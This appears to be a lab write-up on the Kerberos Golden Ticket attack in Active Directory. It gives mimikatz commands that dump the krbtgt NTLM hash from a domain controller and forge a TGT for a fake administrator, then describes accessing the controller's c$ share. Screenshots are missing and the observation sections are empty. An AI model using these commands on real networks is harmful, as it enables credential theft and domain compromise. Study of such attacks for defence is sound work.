







# Kerberos: Golden Tickets

This lab explores an attack on Active Directory Kerberos Authentication. To be more precise - an attack that forges Kerberos Ticket Granting Tickets \(TGT\) that are used to authenticate users with Kerberos. TGTs are used when requesting Ticket Granting Service \(TGS\) tickets, which means a forged TGT can get us any TGS ticket - hence it's golden.

This attack assumes a Domain Controller compromise where `KRBTGT` account hash will be extracted which is a requirement for a successful Golden Ticket attack.

## Execution

Extracting the krbtgt account's password `NTLM` hash:


```csharp
mimikatz # lsadump::lsa /inject /name:krbtgt
```




Creating a forged golden ticket that automatically gets injected in current logon session's memory:


```text
mimikatz # kerberos::golden /domain:offense.local /sid:S-1-5-21-4172452648-1021989953-2368502130 /rc4:8584cfccd24f6a7f49ee56355d41bd30 /user:newAdmin /id:500 /ptt
```




Checking if the ticket got created:



Opening another powershell console with low privileged account and trying to mount a `c$` share of `pc-mantvydas` and `dc-mantvydas` - not surprisingly, returns access denied:



However, switching back to the console the attacker used to create the golden ticket \(local admin\) and again attempting to access `c$` share of the domain controller - this time is a success:



## Observations





## References





